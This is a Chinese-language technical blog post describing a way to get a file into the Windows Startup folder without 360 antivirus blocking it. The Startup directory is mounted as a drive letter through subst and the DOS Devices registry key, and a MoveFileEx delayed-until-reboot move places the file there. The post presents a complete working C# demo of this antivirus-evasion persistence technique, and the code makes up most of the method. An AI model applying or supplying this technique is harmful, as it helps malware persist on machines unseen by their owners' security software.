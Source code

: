 ```yaml
---
title: 一个不太好用的过360启动方案
date: 2023-2-27 17:49:45
categories: 
- Persistence
tags:
- Bypass
- 360
- Persistence
---
```

突发奇想的一个思路，不太好用就发出来玩玩吧

# 背景知识

## 目录挂载

subst是Windows自带的一个工具，可以将文件目录挂载为磁盘，但是重启后不会继续挂载了。

如果想长期挂载，需要修改注册表 ``HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\DOS Devices``。

[https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/subst](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/subst)

## MoveFileEx

MoveFileEx函数第三个参数，可以设置为MOVEFILE_DELAY_UNTIL_REBOOT，实现重启后移动文件。

此参数仅适用于同一盘符内文件的移动。

[https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa)

# 绕过思路

shell:startup目录是用户的启动文件夹，其中的文件会在系统启动时执行，杀软也肯定对写入该目录存在监控

但是杀软无法拦截MoveFileEx导致的重启后移动，所以挂载启动文件夹为新盘符目录后通过MoveFileEx即可移动文件至启动文件夹中

# Demo代码

```
using System;
using System.IO;
using Microsoft.Win32;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace Demo
{
    internal class Program
    {
        [Flags]
        enum MoveFileFlags
        {
            MOVEFILE_REPLACE_EXISTING = 0x00000001,
            MOVEFILE_COPY_ALLOWED = 0x00000002,
            MOVEFILE_DELAY_UNTIL_REBOOT = 0x00000004,
            MOVEFILE_WRITE_THROUGH = 0x00000008,
            MOVEFILE_CREATE_HARDLINK = 0x00000010,
            MOVEFILE_FAIL_IF_NOT_TRACKABLE = 0x00000020
        }

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
        static extern bool MoveFileEx(string lpExistingFileName, string lpNewFileName, MoveFileFlags dwFlags);
        static void Main(string[] args)
        {
            string newdisk = "X:";
            string filepath = "C:\\Windows\\Temp\\1.txt";
            string filename = "1.txt";

            string appdata = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
            string programs = appdata + "\\Microsoft\\Windows\\Start Menu\\Programs";
            RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("SYSTEM\\CurrentControlSet\\Control\\Session Manager\\DOS Devices", true);
            registryKey.SetValue(newdisk, "\\??\\"+ programs);
            Process.Start("subst", newdisk+" \""+ programs + "\"");
            File.Copy(filepath, programs+"\\"+ filename);
            MoveFileEx(newdisk+ "\\" + filename, newdisk + "\\Startup\\" + filename, MoveFileFlags.MOVEFILE_DELAY_UNTIL_REBOOT);
        }
    }
}

```

# 后续完善

自动识别未使用盘符
